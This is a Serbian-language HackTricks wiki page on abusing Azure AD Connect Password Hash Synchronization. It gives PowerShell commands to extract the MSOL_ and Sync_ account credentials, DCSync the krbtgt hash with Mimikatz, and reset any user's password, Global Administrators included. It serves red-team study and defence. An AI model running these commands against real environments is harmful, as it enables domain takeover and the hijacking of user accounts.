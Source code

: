 # Az - PHS - Sinhronizacija heša lozinke

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Sinhronizacija heša lozinke** je jedna od metoda prijavljivanja koja se koristi za postizanje hibridnog identiteta. **Azure AD Connect** sinhronizuje heš, heša, lozinke korisnika iz lokalne Active Directory instance u cloud-baziranu Azure AD instancu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

To je **najčešća metoda** koju koriste kompanije za sinhronizaciju lokalnog AD sa Azure AD.

Svi **korisnici** i **heš heševa lozinki** se sinhronizuju iz lokalnog u Azure AD. Međutim, **lozinke u čistom tekstu** ili **originalni** **heševi** se ne šalju u Azure AD.\
Štaviše, **ugrađene** bezbednosne grupe (kao što su administratori domena...) **nisu sinhronizovane** u Azure AD.

**Sinhronizacija heševa** se dešava svake **2 minute**. Međutim, prema zadatom podešavanju, **istek lozinke** i **istek naloga** **nisu sinhronizovani** u Azure AD. Tako da korisnik čija je **lokalna lozinka istekla** (nije promenjena) može nastaviti da **pristupa Azure resursima** koristeći staru lozinku.

Kada lokalni korisnik želi da pristupi Azure resursu, **autentifikacija se vrši na Azure AD**.

**PHS** je neophodan za funkcije kao što su **Zaštita identiteta** i AAD usluge domena.

## Pivotiranje

Kada je PHS konfiguran, neka **privilegovana naloga** se automatski **kreiraju**:

* Nalog **`MSOL_<installationID>`** se automatski kreira u lokalnom AD. Ovaj nalog dobija ulogu **Nalozi za sinhronizaciju direktorijuma** (vidi [dokumentaciju](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) što znači da ima **dozvole replikacije (DCSync) u lokalnom AD**.
* Nalog **`Sync_<ime lokalnog ADConnect servera>_installationID`** se kreira u Azure AD. Ovaj nalog može **resetovati lozinku BILO kojem korisniku** (sinhronizovanom ili samo u cloudu) u Azure AD.

Lozinke dva prethodna privilegovana naloga su **smeštene u SQL server** na serveru gde je **Azure AD Connect instaliran.** Administratori mogu izvući lozinke tih privilegovanih korisnika u čistom tekstu.\
Baza podataka se nalazi u `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Moguće je izvući konfiguraciju iz jedne od tabela, pri čemu je jedna šifrovana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Šifrovana konfiguracija** je šifrovana sa **DPAPI** i sadrži **lozinke `MSOL_*`** korisnika u lokalnom AD i lozinku **Sync\_\*** u AzureAD. Stoga, kompromitovanjem ovih je moguće privesc do AD i AzureAD.

Možete pronaći [potpun pregled o tome kako su ove kredencijale smeštene i dešifrovane u ovom predavanju](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Pronalaženje **Azure AD connect servera**

Ako je **server na kojem je instaliran Azure AD connect** pridružen domenu (preporučeno u dokumentima), moguće je pronaći ga sa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Zloupotreba MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Možete takođe koristiti [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) da dobijete te kredencijale.
{% endhint %}

### Zloupotreba Sync\_\*

Kompromitovanjem **`Sync_*`** naloga moguće je **resetovati lozinku** bilo kog korisnika (uključujući Globalne Administratore)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Takođe je moguće **modifikovati lozinke samo za cloud** korisnike (čak i ako to nije očekivano)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Moguće je izvući lozinku ovog korisnika.

{% hint style="danger" %}
Druga opcija bi bila da **dodelite privilegovane dozvole servisnom principalu**, što **Sync** korisnik ima **dozvole** da uradi, a zatim **pristupite tom servisnom principalu** kao način privesc.
{% endhint %}

### Seamless SSO

Moguće je koristiti Seamless SSO sa PHS, koji je podložan drugim zloupotrebama. Proverite to u:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
